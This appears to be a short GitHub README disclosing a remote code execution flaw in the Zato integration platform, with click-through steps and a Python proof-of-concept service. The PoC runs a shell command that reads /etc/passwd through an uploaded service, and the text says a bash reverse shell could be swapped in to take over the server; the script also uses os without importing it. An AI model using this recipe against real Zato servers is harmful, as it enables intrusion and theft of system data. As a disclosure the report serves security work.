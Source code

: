 # zato-rce
- Login in Zato;
- Click "Services"-"List services"-"Upload services"
- Upload PoC Python Script(in attachment)
- Click uploaded files and click "Invoker",last submit.
- Server execute code.If I change the command to "Bash Reverse Shell" ,i will gain server privileges.

![](20211013134310.png)
![](20211014133733.png)

PoC:
```
from zato.server.service import Service
import json

class OeNotice(Service):
    def handle(self):
        self.response.payload={'result':os.popen("cat /etc/passwd").read()}
```


